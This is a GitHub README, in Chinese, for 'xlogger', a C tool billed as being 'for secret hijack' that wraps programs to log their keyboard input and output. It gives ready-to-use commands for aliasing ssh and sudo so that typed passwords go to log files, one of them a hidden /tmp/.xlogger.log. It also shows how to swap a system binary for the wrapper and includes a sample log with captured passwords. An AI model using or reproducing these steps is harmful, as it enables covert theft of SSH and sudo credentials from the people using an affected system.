

# xlogger

劫持任意程序的键盘输入和执行结果的日志。

```
You Know, for secret hijack.
```

## 使用

[releases下载](https://github.com/TheKingOfDuck/xlogger/releases)

### SSH Client 密码劫持
```bash
export XPROGRAM="/usr/bin/ssh"
export XLOGFILE="/var/log/ssh-hijack.log"
alias ssh='/path/to/bin/xlogger'
ssh root@server.com

# ssh密码以及所有给ssh的输入将记录到/var/log/ssh-hijack.log
```

### SUDO 用户密码劫持
```bash
export XPROGRAM="/usr/bin/sudo" 
export XLOGFILE="/tmp/.xlogger.log"
alias sudo='/path/to/bin/xlogger'

sudo -s
whoami
# sudo -s切用户时输入的密码将记录到/tmp/.xlogger.log
```



### 劫持任意程序

一些场景下，想知道目标程序都干了些什么，命令行参数是什么，输出是什么，比如劫持bash当个临时hids使用...

```bash
# 用xlogger替换掉目标程序
mv /usr/bin/anyapp /usr/bin/anyapp-backup
export XPROGRAM="/usr/bin/anyapp-backup" 
export XLOGFILE="/var/log/app.log"
mv /path/to/bin/xlogger /usr/bin/anyapp
```
后续/usr/bin/anyapp的所有被调用记录将保存到/var/log/app.log，如果不想使用环境变量或者需要命令执行的结果可以修改代码

### 代码配置

如果不想用环境变量，也可以改代码里的默认值：

```c
#define DEFAULT_XPROGRAM "/usr/bin/sudo"     // 默认程序
#define DEFAULT_XLOGFILE "/tmp/.xlogger.log" // 默认日志位置

static int log_keyboard_input = 1;           // 是否记录键盘输入
static int log_console_output = 0;           // 是否记录程序输出
```

## 编译

### 快速开始

```bash
make help
make deps

make
```

### 手动编译

```bash
gcc -Wall -Wextra -std=c99 -O2 -o xlogger xlogger.c -lutil
```


## 日志格式

日志默认保存在 `/tmp/.xlogger.log`，格式如下：

```
========= New session started ======
cmdline: /usr/bin/sudo -s
------------------------------------
[2025-09-19 22:12:47] INPUT: yourpincode
[2025-09-19 22:12:55] INPUT: id
=== Session ended with status: 0 ===

========= New session started ======
cmdline: /usr/bin/ssh root@server.com -p 2048 
------------------------------------
[2025-09-19 22:12:47] INPUT: yoursshpassword
[2025-09-19 22:13:01] INPUT: whoami
[2025-09-19 22:13:01] OUTPUT: root
=== Session ended with status: 0 ===
```
